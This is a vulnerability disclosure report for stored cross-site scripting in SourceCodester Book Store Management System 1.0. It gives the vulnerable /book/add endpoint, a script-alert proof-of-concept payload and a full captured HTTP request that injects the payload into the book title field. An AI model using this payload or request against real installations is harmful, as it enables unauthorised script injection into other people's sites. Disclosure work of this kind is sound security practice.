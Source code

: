 # Stored Cross Site Scripting

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. This vulnerability affects code of the file /book.php. The manipulation of the argument book_title, publisher, writer leads to cross site scripting. The attack can be initiated remotely.

The product(s): https://www.sourcecodester.com/php/15748/book-store-management-system-project-using-php-codeigniter-3-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip

Affected component(s): /bsms_ci/index.php/book/add

Proof of Concept: Go to /bsms_ci/index.php/book/add and using function “Add New Book” and insert payload at “Book Title", "Publisher" or "Author”.

[+] Payload: `<script>alert(document.domain)</script>`

Burpsuite Request:

```txt
POST /bsms_ci/index.php/book/add HTTP/1.1
Host: localhost
Content-Length: 1004
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylCtfxCb0KA0B0dj6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/book
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: ci_session=mhhvamokocno4687ie4ovjlfi1s4n6om
Connection: close

------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="book_title"

<script>alert(document.domain)</script>
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="year"

2022
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="price"

10
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="category"

1
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="gambar"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="publisher"

Publisher
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="writer"

Author
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="stock"

10
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="save"

Save
------WebKitFormBoundarylCtfxCb0KA0B0dj6--
```

Image:

![image](images/UI.png)

![image](images/burpsuite_request.png)

![image](images/xss-html.png)

![image](images/xss.png)

Discoverer(s)/Credits: CMCSOC Redteam (@lithonn)

- Ngo Van Tu (@leecybersec)
- Tran Thi Nho (@nhott)
- Huynh Nhat Hao (@h40huynh)
- Le Thi Huyen My (@Huy3nMy)
